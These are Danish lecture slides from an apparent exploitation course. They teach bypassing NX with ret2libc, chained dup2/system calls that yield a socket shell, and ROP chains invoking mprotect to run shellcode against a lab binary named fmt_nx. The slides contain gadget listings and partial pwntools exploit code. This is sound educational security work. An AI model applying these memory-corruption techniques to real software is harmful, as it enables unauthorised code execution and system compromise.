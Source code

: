 Næste mitigation - No Execute
-----------------------------

Også kaldt *Data Execution Prevention*, eller *W^X*

Code signing giver et lignende problem.

Næste mitigation - No Execute
-----------------------------

[source,bash]
------------------------------------------------
$ checksec assignments/fmt_nx
[*] '/vagrant/presentations/04-advanced-exploitation/assignments/fmt_nx'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
------------------------------------------------

Næste mitigation - No Execute
-----------------------------

[source,bash]
------------------------------------------------
$ grep -E '(fmt_nx)|(stack)' /proc/$(pidof fmt_nx)/maps
56559000-5655b000 r-xp 00000000 00:7d 22 /04-advanced-exploitation/fmt_nx
5655b000-5655c000 r--p 00001000 00:7d 22 /04-advanced-exploitation/fmt_nx
5655c000-5655d000 rw-p 00002000 00:7d 22 /04-advanced-exploitation/fmt_nx
ff9ae000-ff9cf000 rw-p 00000000 00:00 0  [stack]
------------------------------------------------

Løsning 1 - ret2libc
--------------------

Udføres `system("/bin/bash");` ser stakken således ud ved første instruktion i `system@libc`:

image::../images/ret2libc_1.png[width=600]

Løsning 1 - ret2libc
--------------------

Hvad nu hvis vi får stakken til at se sådan her ud lige inden en `ret` instruktion?:

image::../images/ret2libc_2.png[width=600]

Hvordan finder vi `system@libc`?
--------------------------------

Fandens komplekst men meget lærerigt at forsøge manuelt.

Rimeligt velbeskrevet her: http://uaf.io/exploitation/misc/2016/04/02/Finding-Functions.html

Og illustreret her: http://blog.the-playground.dk/2017/06/dynelf-illustrated.html

Indtil lysten til den slags dukker op kan I benytte `DynELF` klassen fra `pwntools`.

[source,python]
------------------------------------------------
class DynELF:
    ...
    def __init__(self, leak, pointer=None, elf=None, libcdb=True):
        ...
------------------------------------------------

Opgave 6 - Lav arbitrary read funktion
--------------------------------------

Test den ved at resolve `system` fra `libc`

Opgave 7 - Returner til `system`
--------------------------------

Hvorfor fik vi ikke en shell?
-----------------------------

Det gjorde vi også:

[source,bash]
------------------------------------------------
[pid  5410] rt_sigprocmask(SIG_SETMASK, [], NULL, 8) = 0
[pid  5410] execve("/bin/sh", ["sh", "-c", "/bin/bash"], [/* 3 vars */]) = 0
strace: [ Process PID=5410 runs in 64 bit mode. ]
.......
[pid  5403] --- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0xdeadbeef} ---
....
------------------------------------------------

Hvorfor fik vi ikke en shell?
-----------------------------

Vi kommunikerer med processen via en socket med file descriptor 4.

Shellen snakker med stdin, stdout og stderr som har file descriptors 0, 1 og 2

Hvorfor fik vi ikke en shell?
-----------------------------

Husk `findpeersh`?

Den fandt en socket filedescriptor og kopierede den til filedescriptor 0, 1 og 2.

Vi kan gøre det samme.

Opgave 8 - Chained ret2libc
---------------------------

Vi skal gøre dette:

[source,c]
------------------------------------------------
dup2(4, 0);
dup2(4, 1);
dup2(4, 2);
system("/bin/bash");
------------------------------------------------

Opgave 8 - Chained ret2libc
---------------------------

Men det er problematisk

image::../images/bad_chaining.png[width=600]

Opgave 8 - Chained ret2libc
---------------------------

Ryd stakken mellem "kald"

image::../images/good_chaining.png[width=300]

Når ret2libc ikke virker
------------------------

* Statisk lænkede programmer uden libc
* Hvis vi ikke kan resolve
* I x86_64/ARM/MIPS leveres argumenter ikke på stakken men i registre

Return Oriented Programming (ROP)
---------------------------------

Kræver kontrol med stakken.

ROP Gadget: Kort serie af instruktioner som ender med `ret` eller `call/jmp` til et register

ROP Chain: Serie af gadgets, som opnår et delmål

Kæd dem sammen ved at returnere rundt for at opnå et større mål.

Return Oriented Programming (ROP)
---------------------------------

Indsamling af gadgets

[source,bash]
------------------------------------------------
$ ROPgadget --multibr --binary assignments/fmt_nx
Gadgets information
============================================================
0x00000936 : adc al, 0x24 ; call eax
0x00000983 : adc al, 0x24 ; call ecx
0x00001297 : adc al, 0x41 ; ret
....
0x00000b4d : sub esp, 0x44 ; call 0x8f9
0x0000071d : sub esp, 8 ; call 0x8f9
0x00000931 : test eax, eax ; je 0x92c ; mov dword ptr [esp], edx ; call eax
0x00001293 : xor byte ptr [edx], al ; dec eax ; push cs ; adc al, 0x41 ; ret

Unique gadgets found: 158
------------------------------------------------

Return Oriented Programming (ROP)
---------------------------------

Dem vi kan nøjes med

[source,bash]
------------------------------------------------
0x00000d13 : add esp, 0x44 ; pop ebx ; pop ebp ; ret
0x00000e88 : int 0x80 ; ret
0x00000739 : pop ebx ; ret
0x00000d7b : pop eax ; ret
0x00000737 : les ecx, ptr [eax] ; pop ebx ; ret
0x00000a06 : lea edx, dword ptr [ebx - 0x110] ; mov dword ptr [esp], edx ; call eax
0x00000928 : pop ebx ; pop ebp ; ret
------------------------------------------------

Return Oriented Programming (ROP)
---------------------------------

Slutmålet med vores kæde:

[source,c]
------------------------------------------------
mprotect(shellcode & PAGE_MASK, 
         PAGE_SIZE * 2, 
         PROT_READ|PROT_WRITE|PROT_EXEC);
((void(*))shellcode)();
------------------------------------------------

[source,asm]
------------------------------------------------
mov eax, SYS_mprotect
mov ebx, shellcode & PAGE_MASK
mov ecx, PAGE_SIZE * 2
mov edx, PROT_READ | PROT_WRITE | PROT_EXEC
int 0x80
jmp shellcode
------------------------------------------------

Return Oriented Programming (ROP) - delmål 1
--------------------------------------------

`edx = PROT_READ|PROT_WRITE|PROT_EXEC = 7`

[source,python]
------------------------------------------------
fmt_base + POP_EBX, # pop ebx ; ret
7 + 0x110,          # ->ebx
fmt_base + POP_EAX, # pop eax ; ret
fmt_base + POP2,    # ->eax = pop ebx ; pop ebp ; ret
fmt_base + LEA_EDX, # lea edx, dword ptr [ebx - 0x110] ; mov dword ptr [esp], edx ; call eax
0xdeadbeef,         # Will be overwritten
------------------------------------------------

Return Oriented Programming (ROP) - delmål 2
--------------------------------------------

`ecx = PAGE_SIZE * 2` og `ebx = shellcode & PAGE_MASK`

[source,python]
------------------------------------------------
poke(fmt_base + 0x3000, p32(PAGE_SIZE * 2) + "\0\0")
------------------------------------------------

`fmt_base + 0x3000` er en skrivbar datasektion.

[source,python]
------------------------------------------------
fmt_base + POP_EAX, # pop eax ; ret
fmt_base + 0x3000,  # ->eax
fmt_base + LES_ECX, # les ecx, ptr [eax] ; pop ebx ; ret
buffer & PAGE_MASK, # address to mprotect must be on a page boundary
------------------------------------------------

Return Oriented Programming (ROP) - delmål 3
--------------------------------------------

Udfør systemkald til `mprotect` og spring så til shellcoden

[source,python]
------------------------------------------------
fmt_base + POP_EAX,           # pop eax ; ret
int(constants.SYS_mprotect),  # ->eax
fmt_base + INT_80,            # int 0x80 ; ret
buffer
------------------------------------------------
